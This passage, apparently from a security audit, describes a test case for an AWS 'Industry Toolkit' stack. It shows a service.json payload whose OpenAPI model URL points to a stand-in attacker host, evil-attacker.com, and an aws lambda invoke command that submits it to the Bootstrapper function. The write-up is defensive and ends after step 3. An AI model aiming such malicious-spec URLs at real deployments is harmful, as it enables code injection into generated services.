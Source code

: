   - **Security Test Case:**
    1. **Prerequisites:**
       - Deploy the Industry Toolkit stack.
       - Obtain the API Gateway endpoint URL for invoking the service creation.
       - Set up a publicly accessible malicious OpenAPI specification file (e.g., `malicious-openapi.yaml`) hosted at `https://evil-attacker.com/malicious-openapi.yaml`. This file can contain payloads designed to exploit known vulnerabilities in `openapi-generator-cli` or simply be crafted to inject code into generated outputs. For a basic test, a spec that causes an error during generation is sufficient to verify the URL is being processed.

    2. **Craft Malicious Request:**
       - Create a `service.json` file that includes the URL of the malicious OpenAPI specification:
         ```json
         {
           "service": {
             "type": "spring",
             "name": "test-service-evil-openapi",
             "description": "Test service with malicious OpenAPI URL",
             "openapi": {
               "model": "https://evil-attacker.com/malicious-openapi.yaml",
               "config": {
                 "basePackage": "com.example.test",
                 "artifactId": "test-service-evil-openapi"
               }
             }
           },
           "scm": {
             "github": {
               "repo": "https://github.com/my-org/test-repo",  // Replace with a valid repo URL (can be dummy for test)
               "secretKey": "my-key", // Replace with valid secret key from Secrets Manager
               "email": "test@example.com",
               "name": "Test User"
             }
           },
           "iac": {
             "cloudformation": {
               "vpc": "vpc-xxxxxxxx", // Replace with valid VPC ID
               "subnets": "subnet-xxxxxxx,subnet-xxxxxxx" // Replace with valid subnet IDs
             }
           }
         }
         ```
       - Replace placeholder values (VPC, subnets, GitHub repo, secret key) with valid, but potentially dummy, values for your test environment. The key element is the malicious OpenAPI URL.

    3. **Invoke Service Creation API:**
       - Use `aws lambda invoke` or a similar tool to call the Industry Toolkit's Bootstrapper Lambda function, providing `service.json` as the payload.
         ```bash
         aws lambda invoke \
               --function-name <YourBootstrapperLambdaFunctionName> \
               --payload file://service.json \
               --cli-binary-format raw-in-base64-out \
               /dev/stdout
         ```
         (Replace `<YourBootstrapperLambdaFunctionName>` with the actual name of your Bootstrapper Lambda function from the stack outputs).
